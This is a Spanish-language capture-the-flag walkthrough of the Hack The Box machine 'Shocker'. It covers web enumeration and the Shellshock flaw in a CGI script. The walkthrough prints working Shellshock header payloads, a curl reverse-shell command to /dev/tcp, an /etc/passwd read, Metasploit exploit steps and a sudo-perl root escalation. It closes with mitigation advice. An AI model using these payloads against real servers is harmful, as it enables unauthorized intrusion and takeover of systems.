







**Sistema Operativo**: Linux

**Dificultad**: Easy

**Temas a tratar:** Web, Fuzzing, Shellshock y Sudoers

<p align="center">
    
</p>


**Shocker** es una máquina **Linux** de dificultad **fácil** que cubre las temáticas de Web, Fuzzing, ataque Shellshock y abuso de permisos de sudoers. La máquina nos enseña en parte la importancia de saber enumerar una web correctamente, y el foco de la máquina que es la vulnerabilidad Shellshock, es una máquina bastante fácil que nos ayuda a adaptarnos a lo que son máquinas de Hack the box y laboratorios en general.


-------


Haciendo un escaneo de **nmap** por TCP a todos los puertos de la máquina víctima, descubrimos que tiene abiertos los puertos 80 y 2222, nmap reporta en este escaneo que son los servicios http y EtherNetIP-1 por convención en los puertos.

```bash
sudo nmap -p- -sS --open --min-rate 2500 -vvv -n -Pn 10.10.10.56
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 22:02 -05
Initiating SYN Stealth Scan at 22:02
Scanning 10.10.10.56 [65535 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed SYN Stealth Scan at 22:02, 25.10s elapsed (65535 total ports)
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.082s latency).
Scanned at 2024-04-25 22:02:27 -05 for 25s
Not shown: 62341 closed tcp ports (reset), 3192 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 63
2222/tcp open  EtherNetIP-1 syn-ack ttl 63

Read data files from: /usr/local/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds
           Raw packets sent: 71397 (3.141MB) | Rcvd: 64870 (2.595MB)
```

Teniendo estos servicios detectados empezamos la etapa de enumeración hacia estos con nmap, haciendo detección de **versiones** para estos servicios y corriendo los **scripts básicos** de nmap.

```bash
nmap -sCV -T4 -p80,2222 10.10.10.56
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 22:07 -05
Nmap scan report for 10.10.10.56
Host is up (0.088s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.80 seconds
```

Este escaneo nos devuelve mucha más información sobre los servicios que corren por estos puertos y el nmap reconoce con seguridad el **http** en el puerto 80 y en el 2222 con el reconocimiento puede darse cuenta que corre un **ssh**, esto se debe a que en el escaneo inicial solo se encarga de decirnos si el puerto está abierto, el servicio lo señala por el servicio que corre por defecto en ese puerto, más no significa que necesariamente deba estar en dicho puerto dado que esto se puede cambiar en la configuración del servicio. Adicional a esto nos devuelve las tecnologías y la versión de estos servicios, en el http corre un Apache y en el SSH corre OpenSSH (versión desactualizada, con la que podríamos enumerar usuarios en el sistema), también nos aseguramos que estamos ante un Linux.

Teniendo esta información en cuenta, vamos a enumerar la web (http://10.10.10.56) la cual parece ser muy simple.

<p align="center">
    
</p>


Si usamos la herramienta **Whatweb** para enumerar las tecnologías usadas en la página web veremos que solo reporta el apache, con esto nos hacemos la idea que es una página muy sencilla.

```bash
whatweb http://10.10.10.56/
```

```
http://10.10.10.56/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.56]
```

Analizamos el código fuente de la página principal y solo estará un título y la imagen.

```html
 <!DOCTYPE html>
<html>
<body>

<h2>Don't Bug Me!</h2>


</body>
</html> 
```

Ahora enumeraremos la web usando **Fuzzing**, esta técnica consiste en descubrir directorios y archivos en la web usando fuerza bruta, de tal forma que probará distintas palabras en la URL y si estas devuelven un código de estado diferente a **404** significará que el recurso existe en la web, y con la información del código de estado que nos reporte la herramienta veremos como proceder, en este caso estaremos empleando la herramienta **Wfuzz** de la siguiente manera:

```bash
wfuzz -c -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.56/FUZZ --hc=404 -t 150
```

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 4715

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                              
=====================================================================

000000023:   403        11 L     32 W       290 Ch      ".hta"                                                                                                               
000000024:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                          
000000025:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                          
000001039:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                           
000002194:   200        9 L      13 W       137 Ch      "index.html"                                                                                                         
000003712:   403        11 L     32 W       299 Ch      "server-status"                                                                                                      

Total time: 0
Processed Requests: 4715
Filtered Requests: 4709
Requests/sec.: 0
```

Hay que tener en cuenta el funcionamiento de **Wfuzz**, la herramienta reemplazará cada palabra del diccionario en la URL donde se encuentra la palabra clave **FUZZ**, esto es relevante dado que si queremos buscar archivos con una extensión en específica como .txt, .php, .sh, etc, tendrémos que agregarlo manualmente (ej. FUZZ.html) a menos que tengamos un diccionario con palabras ya con esa extensión en específico. Otro detalle está en que muchas veces hay directorios en las páginas web a los que solo accederemos si tenen la **barra / al final**, como lo es este caso en el cgi-bin, aunque en el diccionario ya estaba la palabra con la barra al final es importante tenerlo en cuenta para enumerar directorios, esto se debe a que muchas veces la web se configura para que se acceda a un recurso o ruta de la máquina en específico que está en otra ruta si nos referimos a él con un nombre en específico en la URL, en este caso "cgi-bin/" (Esto lo comprobamos cuando accedamos a la máquina y veamos el archivo de configuración /etc/apache2/conf-enabled/serve-cgi-bin.conf).

Si investigamos que significa la carpeta **cgi-bin**, encontraremos que allí se alojan scripts o binarios CGI(Common Gateway Interface) utilizados en servidores Apache, su principal uso es incorporar a la web funcionalidades que interactúan directamente con el sistema operativo o añadir una funcionalidad a la web otorgada por lo que hace un programa dado, y usualmente estos scripts tendrán extensiones .sh, .cgi, .pl o .py. Así que dentro del directorio, a pesar de no tener acceso al directorio como tal (por el código de estado 403), igual podamos Fuzzear por sus contenidos para ver que hay dentro del directorio y tal vez tengamos acceso a lo que haya dentro, para esto usaremos de nuevo wfuzz y con la opción '-z' iteraremos sobre la lista de extensiones de archivo que mencionamos, y serán reemplazadas en la segunda palabra clave 'FUZ2Z'.

```bash
wfuzz -c -w /usr/share/SecLists/Discovery/Web-Content/common.txt -z list,sh-cgi-py-pl -u http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z --hc=404 -t 150
```

```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
Total requests: 18860

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                              
=====================================================================

000000089:   403        11 L     32 W       301 Ch      ".hta - sh"                                                                                                          
000000090:   403        11 L     32 W       302 Ch      ".hta - cgi"                                                                                                         
000000091:   403        11 L     32 W       301 Ch      ".hta - py"                                                                                                          
000000092:   403        11 L     32 W       301 Ch      ".hta - pl"                                                                                                          
000000093:   403        11 L     32 W       306 Ch      ".htaccess - sh"                                                                                                     
000000094:   403        11 L     32 W       307 Ch      ".htaccess - cgi"                                                                                                    
000000095:   403        11 L     32 W       306 Ch      ".htaccess - py"                                                                                                     
000000096:   403        11 L     32 W       306 Ch      ".htaccess - pl"                                                                                                     
000000097:   403        11 L     32 W       306 Ch      ".htpasswd - sh"                                                                                                     
000000098:   403        11 L     32 W       307 Ch      ".htpasswd - cgi"                                                                                                    
000000099:   403        11 L     32 W       306 Ch      ".htpasswd - py"                                                                                                     
000000100:   403        11 L     32 W       306 Ch      ".htpasswd - pl"                                                                                                     
000017289:   200        7 L      17 W       118 Ch      "user - sh" 
```

Ignorando los recursos que inician con .hta, el Fuzzing nos reporta un script de bash **user.sh** que si accedemos a el desde el navegador nos lo intentará descargar, pero si examinamos a respuesta de la petición podemos ver el output del script, podemos hacer esto con Curl:

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

```
Content-Type: text/plain

Just an uptime test script

 00:42:10 up  1:45,  0 users,  load average: 0.00, 0.00, 0.00
```

Se puede ver de la respuesta que el script es el comando **uptime**, que entre otras cosas nos dice la hora local de la máquina. En cuanto al contexto de los programas CGI, podríamos asumir que este script está siendo usado para que la página web maneje el tiempo de acuerdo a la hora del servidor, algo que es común en cuanto a programas CGI para implementar cuentas regresivas o funcionalidades relacionadas a la hora del día o la fecha.

Para este punto podemos pensar que lo mas relevante de la máquina son los CGI-bins y buscaremos vulnerabilidades al respecto, si hicimos esa labor lo primero con lo que nos encontramos es la vulnerabilidad foco de esta máquina, **Shellshock**.

#### Shellshock

La vulnerabilidad **Shellshock** fue una vulnerabilidad crítica por allá en el 2014 que afectó a sistemas Unix, para tener un poco de contexto de la gravedad de esta vulnerabilidad voy a contextualizarla un poco. Shellshock (**CVE-2014-6271**) es una vulnerabilidad propia de bash, que es la interfaz de linea de comandos para sistemas Unix, con ella interactuamos con el sistema en consola, la vulnerabilidad se aprovecha de la declaración de variables de entorno como funciones e inyecta una serie de caracteres especiales en un oneliner que a la hora de ser interpretados por bash este no sabrá como proceder y permitirá ejecutar comandos en el contexto de la declaración de una función, como en el siguiente ejemplo:

```bash
env x='() { :;}; bash -c "echo test"
```

En una versión de bash vulnerable, el resultado de esa línea hubiese sido un "echo test" en la consola.

Lo crítico del asunto está cuando este comportamiento de bash se concatena con el uso de CGI-bins en **Apache**, en el contexto de los CGI-bins con las peticiones a la web donde se encuentra el programa CGI, cada cabecera de la petición se pasa como una variable de entorno para el contexto donde se ejecutan estos scripts, esto significa que si ingresamos los caracteres especiales del Shellshock en una de estas variables como el User-Agent que se puede cambiar arbitrariamente sin ningún problema, al estar interactuando directamente con scripts a nivel de sistema, provocaremos inyección remota de comandos, esto aplica igual para scripts en lenguajes de programación distintos a bash pero que de igual forma interactuan directamente con el sistema.

Ahora teniendo en cuenta que más del 75% del internet está hecho con Apache y más del 80% de Apache lo corren máquinas Linux, nos podemos dar cuenta de la gravedad de esta vulnerabilidad, estamos hablando de que podemos ejecutar comandos remotamente en un servidor sin requerir autenticación previa, la mayoría de todo el internet era vulnerable. La gravedad de Shellshock es comparable a otras vulnerabilidades como Eternal Blue y Heartbleed. Antes de ser publicada esta vulnerabilidad, la shell **bash** fue actualizada para parchearla y otras vulnerabilidades subyacentes a esta fueron siendo parcheadas periodicamente.

#### Explotación

Ahora que sabemos del contexto de esta vulnerabilidad vamos a ver cómo podemos identificar escenarios donde es factible que se presente esta vulnerabilidad, identificar objetivos que sean vulnerabilidades, y explotar la vulnerabilidad tanto manual como automáticamente.

Como pudimos ver, si encuentran una carpeta cgi-bin en una web hay que tener en cuenta la vulnerabilidad Shellshock, así mismo si ven algún script bash, perl o similares en el sistema y vean que puede estar siendo utilizado en la web para interactuar con el sistema. También tener en cuenta que la vulnerabilidad es vieja y que en sistemas actuales es muy difícil encontrarse con un sistema tan **desactualizado**, por lo que es más probable ver esta vulnerabilidad en laboratorios algo viejos.

Ahora para identificar objetivos vulnerables y explotarlos traigo 3 aproximaciones:

###### Nmap:

Cuando tengamos un posible script vulnerable vamos usar el script de nmap '**http-shellshock**' recibiendo como argumento la variable 'uri' como lo haremos de la siguiente manera:

```bash
nmap -p80 --script http-shellshock --script-args uri='http://10.10.10.56/cgi-bin/user.sh' 10.10.10.56
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 00:55 -05
Nmap scan report for 10.10.10.56
Host is up (0.084s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds
```

El script nos reporta que es vulnerable, y con esto podemos proceder a explotarlo con el mismo script adicionando el argumento 'cmd' con el comando que queremos ejecutar en la máquina víctima. Pero hay que tener algo **importante** en este punto, muchas veces cuando nos enfrentamos a esta vulnerabilidad u otras relacionadas a ejecución de comandos tenemos que meter uno o dos comandos antes como '; echo; echo' porque en ocasiones o no se ejecuta el comando, o crashea la web como es este el caso con un error 500, por ello si ingresamos solo un comando en la variable cmd, no va a salir ningún output del comando en el reporte de nmap. En la imagen se ve como no se contempla el echo después del payload:

<p align="center">
    
</p>

Adicional a tener en cuenta es introducir los binarios del sistema con su ruta absoluta como se ve a continuación:

```bash
nmap -p80 --script http-shellshock --script-args uri='http://10.10.10.56/cgi-bin/user.sh',cmd='echo; /usr/bin/id' 10.10.10.56
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 01:10 -05
Nmap scan report for 10.10.10.56
Host is up (0.084s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```

En el resultado se puede ver el resultado del comando '**id**' que inyectamos reportando que la web corre con el usuario Shelly, que entre otras cosas, está en el grupo lxd que es vulnerable a escalada de privilegios, pero esto lo evaluaremos después en caso de ser necesario.

###### Metasploit:

El framework de **Metasploit** también nos da la opción de revisar si un objetivo es vulnerable y explotarlo de forma automatizada, para ello iniciaremos el framework de Metasploit y haremos uso de 2 módulos, el primero será un módulo auxiliar para identificar un objetivo vulnerable.

```bash
msfconsole
use auxiliary/scanner/http/apache_mod_cgi_bash_env
```

Si listamos las opciones del módulo veremos varios campos que tienen opciones por defecto, que para efectos prácticos lo dejaremos así ya que nuestro objetivo va a ser ver si es vulnerable o no, de resto llenamos los campos **RHOST** y **TARGETURI** con la IP de la máquina y la URL donde se encuentra el script cgi al que queremos apuntar.

![[Pasted image 20240426135630.png]]\

```bash
set rhosts 10.10.10.56
set TARGETURI http://10.10.10.56/cgi-bin/user.sh
run
```

```
[+] uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

El resultado es el mismo que con nmap por lo tanto sabemos que el objetivo el vulnerable, podríamos explotar la vulnerabilidad desde este módulo modificando el comando a ejecutar, pero existe otro módulo más práctico para ganar acceso con el Shellshock, el **exploit/multi/http/apache_mod_cgi_bash_env_exec**.

```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

<p align="center">
    
</p>


```bash
set RHOSTS 10.10.10.56
set TARGETURI http://10.10.10.56/cgi-bin/user.sh
set LHOST tun0
run
```

<p align="center">
    
</p>

Llenamos los campos necesarios, corremos el módulo y nos otorgará una sesión de **meterpreter** con la que podremos interactuar directamente con el sistema víctima

###### Manual: 

De forma manual podemos mandar la petición con el payload por nuestra cuenta, ya habiendo visto en que consiste la vulnerabilidad y como se explota en otros ejemplos no será muy complicado hacerlo nosotros. Primero intentémoslo mediante **Burpsuite** (tenemos que configurar el proxy para capturar la petición), capturamos la petición que se hace al cargar http://10.10.10.56/cgi-bin/user.sh que es donde se explota la vulnerabilidad, y en una cabecera que podamos modificar sin 'dañar' la petición (como por ejemplo el User-Agent) ingresar nuestro payload malicioso:

```bash
() { :; }; echo; /bin/bash -c 'cat /etc/passwd'
```

<p align="center">
    
</p>


<p align="center">
    
</p>


Tenemos el output del comando en la respuesta de la petición, con esto podemos entender un poco mejor como es la explotación de esta vulnerabilidad. Intentemos explotarlo con **Curl** mandando la cabecera del User-Agent con el payload:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'"
```

```
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Funciona igual, nos mandamos una reverse shell y accedemos como el usuario Shelly, debemos ponernos en escucha con netcat:

```bash
nc -nlvp 4444
```

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/${nuestra_ip}/4444 0>&1'"
```

!Y listo! Tenemos acceso inicial, ahora a **sanitizar** esa terminal

<pre 
  class="command-line" 
  data-prompt="shelly@Shocker:~$" 
  data-output="4"
><code class="language-bash">script /dev/null -c bash
Crl_z</code>
</pre>


```bash
stty raw -echo; fg
reset xterm
```

<pre 
  class="command-line" 
  data-prompt="shelly@Shocker:~$" 
  data-output="5"
><code class="language-bash">export SHELL=/bin/bash
export TERM=xterm-256color
source /etc/skel/.bashrc
stty rows ${filas de tu consola} columns ${columnas de tu consola}</code>
</pre>

Ya operando cómodamente en la terminal sanitizada, empezamos a enumerar para **escalar privilegios**.

#### Escalada de privilegios

En esta máquina la escalada es sencilla y tiene que ver con los permisos a nivel de **sudoers** para el usuario Shelly, estos permisos se definen en el archivo **/etc/sudoers** que solo root tiene acceso y permite darle permisos específicos para un usuario en cuanto a ejecución de binarios, entre otras cosas. Para listar estos permisos ingresamos el comando 'sudo -l' (depende la configuración, muchas veces pedirá credenciales de ese usuario), y si lo ejecutamos nos dirá entre otras cosas, que podemos ejecutar el binario del intérprete de comandos de Perl como el usuario root sin proporcionar contraseña, tener un intérprete de un lenguaje de programación con esos permisos en en general es cuanto menos **riesgoso** por el tipo de cosas que podemos hacer con ello y su capacidad de interactuar directamente con el sistema.

<pre 
  class="command-line" 
  data-prompt="shelly@Shocker:~$" 
  data-output="4"
><code class="language-bash">sudo -l</code>
</pre>


```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Cuando nos enfrentemos a este tipo de casos en los que tenemos permisos especiales de un binario conocido, recomiendo visitar la página **GTFObins** (https://gtfobins.github.io/). Si buscamos el caso de perl con permisos de ejecución como root, encontraremos que se pueden ejecutar comandos a nivel de sistema con la flag '-e' y la instrucción exec. Al poder ejecutar comandos como root tenemos varias aproximaciones, pero la que yo veo más simple es solo ejecutar la bash para que nos de la sesión como root de la siguiente manera:

<pre 
  class="command-line" 
  data-prompt="shelly@Shocker:~$" 
  data-output="4"
><code class="language-bash">sudo perl -e "exec '/bin/bash'"</code>
</pre>

De esta forma habremos ganado acceso como el usuario root y comprometido la máquina en su totalidad. Si has llegado a este punto de felicito **:)**

#### Datos curiosos

Revisando el archivo de configuración de Apache **/etc/apache2/conf-enabled/serve-cgi-bin.conf** podemos responder una de las preguntas que nos pudo haber surgido al hacer la máquina: ¿Porqué solo aceptaba el directorio cgi-bin con la barra al final?

```html
<IfModule mod_alias.c>
	<IfModule mod_cgi.c>
		Define ENABLE_USR_LIB_CGI_BIN
	</IfModule>

	<IfModule mod_cgid.c>
		Define ENABLE_USR_LIB_CGI_BIN
	</IfModule>

	<IfDefine ENABLE_USR_LIB_CGI_BIN>
		ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
		<Directory "/usr/lib/cgi-bin">
			AllowOverride None
			Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
			Require all granted
		</Directory>
	</IfDefine>
</IfModule>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Analizando el contenido de este archivo entendemos la razón de ello, en la configuración dice que cuando se establezca en la ruta de la web el directorio /cgi-bin/ (con la barra al final) queremos que redirija a otra ruta dentro del sistema diferente a donde se encuentra la web y están almacenados los programas CGI (/usr/lib/cgi-bin/), y es por esto que cuando ganamos acceso a la máquina don encontramos en esta ruta. 

-----------

### Medidas de seguridad:

* La vulnerabilidad de la que nos aprovechamos para ganar acceso afecta solamente a versiones muy viejas de bash, por lo que es muy poco probable encontrarnos con esto en la actualidad, sin embargo vale la recomendación de usar software actualizado.
* También tener en cuenta que Shellshock se presentó por tener recursos en la web que interactúan directamente con el servidor a nivel de sistema y comandos, por lo que siempre que se implemente alguna funcionalidad con estas características en una web es mejor omitirla o prestarle especial cuidado en cuanto a seguridad.
* En cuanto a la escalada el consejo está en evitar dar permisos innecesarios y tener mucho cuidado de a qué cosa le damos privilegios elevados.
### Referencias

* https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?ref=benheater.com